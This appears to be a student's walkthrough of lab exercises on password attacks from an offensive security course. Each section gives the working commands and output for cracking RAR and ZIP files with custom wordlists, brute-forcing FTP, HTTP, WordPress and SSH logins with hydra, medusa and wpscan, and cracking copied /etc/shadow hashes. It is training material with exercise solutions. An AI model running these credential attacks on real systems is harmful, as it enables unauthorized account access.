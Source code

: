 
# 19.4.6.2
You found this encrypted file _flag.rar_ after gaining access to the manager of MegaCorp One's _/challenge_ folder on the VM #1 while conducting a pentest on the company.  
You previously identified a couple of his other passwords including _nanomedicines234_ and _Cyberisation649_ where _nanomedicines_ and _Cyberisation_ both are products of MegaCorp (words) that can be found on their website [www.megacorpone.com.](http://www.megacorpone.com.)  
You also know the password requirement is at least _12 characters with 3 digits_.  
Use this information to generate a custom wordlist to crack this zip file and get the flag.

```bash
cewl www.megacorpone.com -m 12 -w cewl-megacorp.txt  
scp -P 2222 192.168.141.10:/challenge/flag.rar .  
rar2john flag.rar > flagr.hash


sudo vim /etc/john/john.conf  
	(add above [List.Rules:Wordlist])  
  
	[List.Rules:myrules]  
	#Append 3 digits to wordlist  
	$[0-9]$[0-9]$[0-9]


john --wordlist=megacorp flagr.hash  
	Using default input encoding: UTF-8  
	Loaded 1 password hash (RAR5 [PBKDF2-SHA256 256/256 AVX2 8x])  
	Cost 1 (iteration count) is 32768 for all loaded hashes  
	Will run 2 OpenMP threads  
	Press 'q' or Ctrl-C to abort, almost any other key for status  
	->Regeneration298  (flag.rar)


sudo unrar e -pRegeneration298 flag.rar    
	UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal  
	Extracting from flag.rar  
	Extracting  flag.txt                 OK   
	All OK  
  
cat flag.txt
```



# 19.4.6.3
(Similar to above, only flag.zip &....)  
You previously identified several of her other passwords including _bella9221!!_ and _charlie2323##_ where _rosie_ and _bailey_ are the names of two of her pets.  
Looking at her social media, you find out she has a third pet named _buddy_.  
Use this information to generate a custom wordlist to open this file and get the flag.

```bash
zip2john flag.zip > flagz.hash  
  
cat >> pets.txt  
bella  
charlie  
buddy  
rosie  
bailey  
  
crunch 6 6 -t %%%%^^ -o char.txt  
  
/usr/share/hashcat-utils/combinator.bin pets.txt chars.txt > petchar.txt  
  
john --wordlist=petchar.txt flagz.hash  
...  
Loaded 1 password hash (PKZIP [32/64])  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
->buddy2033==      (flag.zip/flag.txt)     
  
unzip -P buddy2033== flag.zip
```



# 19.4.6.4
After enumerating the target VM #3, you will find an FTP server running that is available remotely.  
Use a password attack technique to log into this FTP server with the user offsec while keeping the number of workers not above 3.

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ftp://192.168.141.52  
	no results  
  
medusa -h 192.168.141.52 -u offsec -P /usr/share/wordlists/rockyou.txt -M ftp -t 3  
	ACCOUNT FOUND: [ftp] Host: 192.168.141.52 User: offsec Password: buster [SUCCESS]  
  
  
ftp 192.168.141.52  
	ls  
	get flag.txt  
	bye  
  
cat flag.txt
```



# 19.4.6.5
Use a password attack technique against the target VM #4 to log into the website with the _offsec_ user.

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt -f  192.168.149.52  http-get  
...  
	[80][http-get] host: 192.168.149.52   login: offsec   password: eduardo  
  
OR  
  
medusa -h 192.168.141.52 -u offsec -P /usr/share/wordlists/rockyou.txt -M http  
...  
ACCOUNT FOUND: [http] Host: 192.168.141.52 User: offsec Password: eduardo [SUCCESS]
```



# 19.4.6.6
You have found this list of possible employee username on target VM #5 inside the _users.txt_ file on the web server's root path.  
Use this list and a password attack technique to log into this website.

```bash
curl 192.168.149.10/users.txt > users  
  
wpscan --url http://192.168.149.52 -U users -P /usr/share/wordlists/rockyou.txt  
	[+] Performing password attack on Wp Login against 43 user/s  
[SUCCESS] - jim / claudia                                                                                                                     
^Cying ben / charles Time: 00:09:43 <                                                            > (14604 / 616809074)  0.00%  ETA: ??:??:??  
	[!] Valid Combinations Found:  
	 | Username: jim, Password: claudia
```



# 19.4.6.7
Use a password attack technique to log into the target VM #6 via SSH with the user _offsec_.

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.149.52:2222  
...  
	2222][ssh] host: 192.168.149.52   login: offsec   password: ginger  
  
OR  
  
medusa -M ssh -u offsec -P /usr/share/wordlists/rockyou.txt -h 192.168.149.52 -n 2222  
...  
ACCOUNT FOUND: [ssh] Host: 192.168.149.52 User: offsec Password: ginger [SUCCESS]
```
	SSH on exercises is usually port 2222


# 19.4.6.8
The _shadow man_ admin messed up the configurations on the target VM #7 server and gave you access to see something he shouldn't have.  
Can you use this access to read the flag?

```bash
scp -P 2222 student@192.168.149.52:/etc/passwd ./passwd  
scp -P 2222 student@192.168.149.52:/etc/shadow ./shadow  
scp -P 2222 student@192.168.149.52:passwords.txt ./pw.lst  
  
unshadow passwd shadow > combined  
  
john combined  
	...  
	Proceeding with wordlist:/usr/share/john/password.lst  
	lorena           (shadow-man)       
	Proceeding with incremental:ASCII  
	lab              (student)  
  
OR  
  
john --wordlist=pw.lst combined  
  
ssh shadow-man@192.168.149.52 -p 2222
```